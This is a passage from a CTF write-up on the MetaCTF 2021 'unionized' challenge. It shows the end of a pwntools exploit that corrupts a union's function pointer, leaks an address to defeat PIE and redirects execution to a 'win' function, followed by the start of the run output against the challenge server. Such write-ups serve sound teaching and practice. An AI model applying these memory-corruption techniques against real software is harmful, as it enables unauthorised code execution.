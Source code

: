 ```  
	target.sendline(character)

def edit_string(index, length, data):  
	print(target.recvuntil(b'5. Exit'))  
	target.sendline(b'3')

	print(target.recvuntil(b'What index would you like to modify'))  
	target.sendline(str(index))

	print(target.recvuntil(b'What type would you like?'))  
	target.sendline(b'1')

	print(target.recvuntil(b'like your string to be'))  
	target.sendline(str(length))

	print(target.recvuntil(b'data'))  
	target.sendline(data)

def display():  
	print(target.recvuntil(b'5. Exit\n'))  
	target.sendline(b'2')

create_string(20, '0' * 20)  
create_string(20, '1' * 20)

edit_char(0, b'\x70')  
edit_string(0, 0, b'')

display()

leak = target.recv(6)  
print(leak)  
display_string = u64(leak + b'\x00' * 2)  
print(hex(display_string))

pie_base = display_string - elf.symbols['display_string']  
win = pie_base + elf.symbols['win']  
print(hex(win))

#Round 2:

edit_char(1, b'\x70')

edit_string(1, 8, p64(win))

display()

target.interactive()  
```  
And here are the results:  
```  
knittingirl@piglet:~/CTF/metaCTF21/unionized$ python3 unionized_writeup.py  
[+] Opening connection to host.cg21.metaproblems.com on port 3150: Done  
[*] '/home/knittingirl/CTF/metaCTF21/unionized/chall'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
b'What would you like to do?\n1. Create new object\n2. Display objects\n3.
Edit Object\n4. Delete Object\n5. Exit'  
b'\nWhat type would you like?'  
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat size would you
```